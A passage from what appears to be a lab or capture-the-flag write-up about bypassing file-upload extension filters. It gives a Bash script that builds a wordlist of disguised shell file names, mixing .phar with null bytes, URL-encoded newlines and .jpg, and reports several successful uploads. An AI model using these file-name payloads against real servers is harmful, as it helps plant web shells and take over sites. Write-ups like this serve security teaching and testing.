 To bypass the blacklist and whitelist filters, I generated a custom wordlist using the following Bash script:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.phar' '.pHaR'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

I used special characters and URL encodings (`%20`, `%0a`, `%00`, `%0d0a` ...) to bypass server-side filters that could block direct references to `.phar` or `.php`.

Using the generated wordlist, I tried to upload test files:

![](screenshots/9.png)

Several responses indicated successful uploads:
